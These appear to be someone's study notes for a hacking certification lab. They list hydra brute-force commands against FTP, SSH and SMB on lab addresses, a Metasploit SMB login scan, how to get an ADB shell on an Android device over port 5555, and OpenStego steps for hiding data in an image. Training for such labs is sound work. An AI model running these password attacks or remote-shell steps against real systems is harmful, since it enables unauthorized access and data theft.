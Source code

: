 * Bruteforce Using hydra

#FTP

hydra -L /Desktop/users.txt -p butterfly ftp://10.10.1.10 -V

#SSH

hydra -L /Desktop/users.txt -P /Desktop/password.txt 10.10.1.10 ssh
hydra -l admin -P /Desktop/password.txt 10.10.1.10 ssh
hydra -L /Desktop/users.txt -p butterfly 10.10.1.10 ssh

ftp 10.10.1.10
username:
password:

To get secret file from ftp server
get secret.txt

#SMB

hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb

use auxiliary/scanner/smb/smb_login
msf exploit (smb_login)>set rhosts 192.168.1.118
msf exploit (smb_login)>set user_file /root/Desktop/user.txt
msf exploit (smb_login)>set pass_file /root/Desktop/pass.txt
msf exploit (smb_login)>set stop_on_success true
msf exploit (smb_login)>exploit

* Hacking android

Android debug bridge (ADB) - exuce command on android using kali linux
ip has port open that is android device 5555

Question]On an android device there is a secrete code. What is inside the code?
You need to scan the subnet - look for a machine which has service running on port 5555 which is
nmap 10.0.0.49      -- host seems down
nmap -Pn 10.0.0.49  -- host is up, so scan with -Pn

nmap ip -sV -p 5555    (Scan for adb port)
adb connect [ip android device] -> show error port is missing
adb connect [ip andorid device]:5555  -> connected
adb shell
#ls  -> all dir
#cd sdcard/
#ls - look for file

Question John eng - suspected -android device
* Stegnography

Openstego - image
snow - file

[Windows]
Hide sensitive data in image
Message File section. select secret.txt -> contains sensitive info
Cover File. Select Desktop\Stego.bmp -> Open [After stegnography, the message file will be hidden in the designated cover file]
Click Hide Data button-> success message.
